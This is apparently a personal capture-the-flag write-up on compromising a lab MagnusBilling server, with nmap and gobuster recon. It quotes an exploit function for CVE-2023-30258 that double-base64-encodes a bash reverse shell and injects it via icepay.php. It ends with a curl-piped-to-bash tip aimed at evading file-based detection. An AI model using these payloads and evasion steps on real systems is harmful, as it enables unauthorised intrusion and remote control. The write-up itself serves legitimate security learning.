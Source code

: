 ```shell
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.36.170/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql   MariaDB (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```notes
http://10.10.23.39/mbilling/black-neptune/resources/
actionMethods:{create:"POST",read:"GET",update:"POST",destroy:"POST"}
"marca","altera","User_ID_1","Password_1"
"Proxy_1","User_ID_2","Password_2",
user:j,password:m.SHA1(n.getValue())
url:"index.php/authentication/forgetPassword",params:{email:j
{xtype:"label",text:t("ONE TIME PASSWORD")
["username","password","id_group_agent","id_offer","callingcard_pin","contract_value"],
{name:"senha_admin",fieldLabel:t("Admin password")
```

Lessons: first try after a break - massive fail
- You can use curl with grep to parse thru source code of a webpage
	- Could be great to make a bash script for this
- gobuster with specified port :80 at the end of url can cause every request to miss
- Be diligent with recon, even on ctf do the whole range -p-

Initial info:
- app.js is available and some other styling content
- login fields have some anti SQL injection system
- some url endpoints seem to leak data such as DB col names
- php is in use (index.php)
- senha is prolly one of the users on the system (ssh attempt)

Try 2:
- Redo proper active  recon both gobuster and nmap
- explore new ports and directories, make a plan.

```shell
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.237.29/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
```


```shell
gobuster dir -u http://10.10.34.78/mbilling/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,log,js
```

Getting the initial shell is possible via CVE-2023-30258 (RCE) command injection vuln.
Looking at the existing script for this cve, there is a function to run the exploit.
```python
    def exploit(self):
        requests.packages.urllib3.disable_warnings()
        print("Sending payload...")
        payload = "bash -c 'bash -i >& /dev/tcp/" + self.lhost + "/" + self.lport + " 0>&1'"
        encoded_payload_1 = self.convert_to_b64(payload)
        encoded_payload_2 = self.convert_to_b64(encoded_payload_1)
        target_url = self.url + "lib/icepay/icepay.php?democ=null;echo " + encoded_payload_2 + "|base64 -d|base64 -d|sh;null"
        upload_req = requests.get(target_url,verify=False)
```
You can see that we are running a bash reverse shell for payload var.
That payload is then base64 encoded two times and eventually nested in the target url.
All that is left is to run a listener and send a request with payload.

Upon getting the shell some linux enumeration:
```shell
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```
```shell

```

Cool thing:
Usually when uploading stuff to target machine I setup an python http server and use wget to download the script.
But something even better is using curl and piping it's output to bash to achieve execution in memory without writing to a file.
This migh help avoid some protection systems that detect written files.
```shell
python -m http.server 80
curl 192.168.1.1/linpeas.sh | bash
```
By default curl operates on port 80 so no need to specify that